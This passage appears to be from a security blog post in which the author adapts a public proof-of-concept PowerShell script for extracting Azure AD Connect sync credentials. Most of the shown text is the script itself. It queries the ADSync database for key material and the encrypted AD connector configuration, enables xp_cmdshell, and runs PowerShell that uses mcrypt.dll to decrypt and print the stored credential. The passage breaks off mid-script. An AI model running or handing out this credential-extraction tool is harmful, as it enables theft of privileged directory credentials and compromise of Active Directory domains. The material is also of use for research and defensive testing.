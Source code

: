 I downloaded a copy of the [new POC
code](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c) and
updated the connections string to match what I did in the original:

    
    
    Write-Host "AD Connect Sync Credential Extract v2 (@_xpn_)"
    Write-Host "`t[ Updated to support new cryptokey storage method ]`n"
    
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
    
    try {
        $client.Open()
    } catch {
        Write-Host "[!] Could not connect to localdb..."
        return
    }
    
    Write-Host "[*] Querying ADSync localdb (mms_server_configuration)"
    
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
    $reader = $cmd.ExecuteReader()
    if ($reader.Read() -ne $true) {
        Write-Host "[!] Error querying mms_server_configuration"
        return
    }
    
    $key_id = $reader.GetInt32(0)
    $instance_id = $reader.GetGuid(1)
    $entropy = $reader.GetGuid(2)
    $reader.Close()
    
    Write-Host "[*] Querying ADSync localdb (mms_management_agent)"
    
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    if ($reader.Read() -ne $true) {
        Write-Host "[!] Error querying mms_management_agent"
        return
    }
    
    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()
    
    Write-Host "[*] Using xp_cmdshell to run some Powershell as the service user"
    
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell.exe -c `"add-type -path ''C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'';`$km = New-Object -TypeName Microsoft.DirectoryServices.                 MetadirectoryServices.Cryptography.KeyManager;`$km.LoadKeySet([guid]''$entropy'', [guid]''$instance_id'', $key_id);`$key = `$null;`$km.GetActiveCredentialKey([ref]`$key);`$key2 = `$null;`$km.GetKey(1, [ref]`$key2);`$decrypted = `$null;`$key2.DecryptBase64ToString(''$crypted'', [ref]`$decrypted);Write-Host        `$decrypted`"'"
    $reader = $cmd.ExecuteReader()
    